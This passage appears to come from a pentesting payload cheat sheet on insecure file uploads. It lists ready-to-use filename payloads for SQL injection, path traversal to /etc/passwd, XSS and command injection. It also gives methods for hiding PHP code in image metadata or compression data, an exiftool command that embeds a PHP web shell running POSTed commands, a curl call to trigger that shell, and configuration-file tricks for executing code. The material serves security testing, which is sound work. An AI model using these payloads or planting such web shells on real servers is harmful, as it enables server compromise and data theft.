 Sometimes the vulnerability is not the upload but how the file is handled after. You might want to upload files with payloads in the filename.

- Time-Based SQLi Payloads: e.g. `poc.js'(select*from(select(sleep(20)))a)+'.extension`
- LFI/Path Traversal Payloads:  e.g. `image.png../../../../../../../etc/passwd` 
- XSS Payloads e.g. `'"><img src=x onerror=alert(document.domain)>.extension`
- File Traversal e.g. `../../../tmp/lol.png`
- Command Injection e.g. `; sleep 10;`

Also you upload:
- HTML/SVG files to trigger an XSS
- EICAR file to check the presence of an antivirus

### Picture Compression

Create valid pictures hosting PHP code. Upload the picture and use a **Local File Inclusion** to execute the code. The shell can be called with the following command : `curl 'http://localhost/test.php?0=system' --data "1='ls'"`.

- Picture Metadata, hide the payload inside a comment tag in the metadata.
- Picture Resize, hide the payload within the compression algorithm in order to bypass a resize. Also defeating `getimagesize()` and `imagecreatefromgif()`.
    - [JPG](https://virtualabs.fr/Nasty-bulletproof-Jpegs-l): use createBulletproofJPG.py
    - [PNG](https://blog.isec.pl/injection-points-in-popular-image-formats/): use createPNGwithPLTE.php
    - [GIF](https://blog.isec.pl/injection-points-in-popular-image-formats/): use createGIFwithGlobalColorTable.php


### Picture with custom metadata

Create a custom picture and insert exif tag with `exiftool`. A list of multiple exif tags can be found at [exiv2.org](https://exiv2.org/tags.html)

```ps1
convert -size 110x110 xc:white payload.jpg
exiftool -Copyright="PayloadsAllTheThings" -Artist="Pentest" -ImageUniqueID="Example" payload.jpg
exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg
```

### Configuration Files

If you are trying to upload files to a :
- PHP server, take a look at the [.htaccess](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Apache%20.htaccess) trick to execute code.
- ASP server, take a look at the [web.config](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20IIS%20web.config) trick to execute code.
- uWSGI server, take a look at the [uwsgi.ini](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20uwsgi.ini/uwsgi.ini) trick to execute code.

Configuration files examples
- [.htaccess](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Apache%20.htaccess)
- [web.config](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20IIS%20web.config)
- [httpd.conf](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Busybox%20httpd.conf)
- [\_\_init\_\_.py](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Python%20__init__.py)
- [uwsgi.ini](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20uwsgi.ini/uwsgi.ini)

